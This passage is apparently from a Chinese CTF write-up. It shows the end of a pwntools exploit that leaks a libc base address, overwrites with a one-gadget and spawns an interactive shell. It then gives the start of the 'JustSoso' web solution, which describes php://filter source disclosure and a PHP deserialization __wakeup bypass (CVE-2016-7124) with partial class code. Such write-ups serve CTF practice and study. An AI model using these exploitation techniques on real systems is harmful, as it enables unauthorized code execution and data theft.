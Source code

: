 ```python
        p.recv(15)
        temp = (int(p.recvuntil('\n')[:-1],16)%0x100)
        value = value + (temp<<(8*i))
        if to_write!=0:
    	    p.sendline(str(int((to_write/(1<<(i*8)))%0x100)))
	else:
	    p.sendline(str(int(temp)))
    return value

def empty():
    p.sendlineafter('index\n','0')
    p.recv(15)
    temp = (int(p.recvuntil('\n')[:-1],16)%0x100)
    p.sendline(str(int(temp)))


def main():
    #attach(p)
    p.sendafter('name:','name')
    libc_base = leak(632)-0xf0-0x020740

    leak(344,0x4526a+libc_base)

    success("libc_base:".ljust(20," ")+hex(libc_base))
    
    for i in range(27):
	empty()
    p.sendline('yes')
    
    p.interactive()

if __name__ == '__main__':
    main()
```
## JustSoso
发现file有文件包含漏洞，使用filter伪协议读取index.php和hint.php，得到源码。发现存在一个反序列化。构造Handle类和Flag类的成员变量，可以将**token这设置为token_flag的引用**来绕过getFlag()中的比较。绕过__wakeup，可以**将序列化之后的成员属性数目修改成大于实际数目**[CVE-2016-7124](https://xz.aliyun.com/t/378)。
```php
<?php  
class Handle{ 
    private $handle;
    public function __wakeup(){
		foreach(get_object_vars($this) as $k => $v) {
            $this->$k = null;
        }
        echo "Waking up\n";
    }
	public function __construct() { 
        $this->handle = new Flag; 
    } 
	public function __destruct(){
		$this->handle->getFlag();
	}
}

class Flag{
    public $file;
    public $token;
    public $token_flag;
 
    function __construct(){
```